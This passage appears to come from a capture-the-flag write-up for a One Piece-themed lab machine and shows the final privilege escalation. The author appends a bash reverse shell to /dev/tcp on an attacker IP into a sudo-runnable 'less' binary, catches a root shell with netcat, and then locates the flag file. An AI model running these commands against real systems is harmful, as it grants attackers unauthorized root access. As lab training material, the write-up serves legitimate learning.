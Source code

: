 less? really? now we can read stuff?

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo less /root/flag.txt
Sorry, I can't tell you where is the One Piece
```

sike...they got me! After "looking it up" we learn that less can be used to execute commands

funny how...

```bash
7uffy_vs_T3@ch@Laugh-Tale:~$  echo 'bash -i >& /dev/tcp/10.8.4.19/4444 0>&1' >> /usr/local/bin/less
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo less
Sorry, I can't tell you where is the One Piece

```

and on the listenner we have this...

```bash
└─(15:43:40)──> nc -lnvp 4444                                                                                                        ──(mar.,janv.16)─┘
listening on [any] 4444 ...
connect to [10.8.4.19] from (UNKNOWN) [10.10.80.106] 53462
root@Laugh-Tale:~# id
id
uid=0(root) gid=0(root) groups=0(root)

```

We did it boys! We can grab the one piece now

```bash

root@Laugh-Tale:/root# ls -al
ls -al
total 36
drwx------  5 root root 4096 Jul 29  2020 .
drwxr-xr-x 24 root root 4096 Jul 29  2020 ..
-rw-------  1 root root  217 Aug 14  2020 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Feb  3  2020 .cache
drwx------  3 root root 4096 Jul 26  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jul 26  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Jul 26  2020 .python_history
-rw-r--r--  1 root root  172 Jul 29  2020 .wget-hst
```

Actually...no! I hate this room...I hate it so much

```bash
root@Laugh-Tale:~# find / -name "*.txt" -user root
find / -name "*.txt" -user root
/snap/gnome-3-34-1804/36/etc/X11/rgb.txt
/snap/gnome-3-34-1804/36/usr/lib/python2.7/LICENSE.txt

...

/usr/share/gnupg/help.ru.txt
/usr/share/cups/doc-root/robots.txt
/usr/share/mysterious/on3_p1ec3.txt
/usr/share/ibus-table/tables/template.txt

root@Laugh-Tale:~# cat /usr/share/mysterious/on3_p1ec3.txt
cat /usr/share/mysterious/on3_p1ec3.txt
One Piece: Od@_wOnt_l3t_yOu_kn0w
```
